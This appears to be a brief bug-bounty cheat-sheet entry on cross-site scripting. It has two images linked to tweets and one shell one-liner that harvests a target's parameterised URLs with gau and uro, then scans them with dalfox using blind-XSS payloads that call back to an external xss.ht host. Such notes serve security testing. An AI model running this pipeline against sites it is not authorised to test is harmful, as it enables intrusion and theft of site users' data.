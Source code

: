 ## XSS (Cross Site Scripting)

<a href="https://twitter.com/404death/status/1464102960372224003"><img width="550" height="600px" align="left" src="https://user-images.githubusercontent.com/79082257/143777165-68df1dd0-a69a-4fcb-af8e-5fb7c96463f8.png"/></a>

<a href="https://twitter.com/0xElkomy/status/1467466221704847361"><img width="550" height="700px" align="center" src="https://user-images.githubusercontent.com/79082257/144747863-5c672808-727e-4ac2-a894-ce09966ea765.png"/></a>
Payloads
```
   cat Target.com | gau -subs | grep "https://" | grep -v "png\|jpg\|css\|js\|gif\|txt" | grep "=" | uro | dalfox pipe --deep-domxss --multicast --blind username.xss.ht
```
